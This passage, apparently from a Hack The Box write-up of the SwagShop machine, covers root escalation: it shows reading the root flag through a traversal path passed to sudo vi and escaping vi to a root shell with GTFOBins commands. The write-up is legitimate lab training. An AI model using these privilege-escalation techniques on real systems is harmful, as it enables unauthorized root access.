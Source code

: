                        PS: Use root flag as password!
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    ~
    "/var/www/html/../../../root/root.txt" 10L, 270C
    

### Shell

Of course I want a shell. I’ll open a non-existing file with `www-
data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/a `.

[GTFOBins’ vi page](https://gtfobins.github.io/gtfobins/vi/) tells me how to
get a shell from here:

    
    
    :set shell=/bin/sh
    :shell
    

I’ll use bash, but otherwise the same:

![](https://0xdfimages.gitlab.io/img/swagstore-root.gif)

`wc -c root.txt` returns 270, but that’s because there’s an extra message with
the flag:

    
    
    root@swagshop:/home/haris# cat /root/root.txt 
    c2b087d6...
    
       ___ ___
     /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
      |   |.  |
      |   |.  |         Join the beta HTB Swag Store!
      |___|.__|       https://hackthebox.store/password
    
                       PS: Use root flag as password!
    

### More Direct Shell
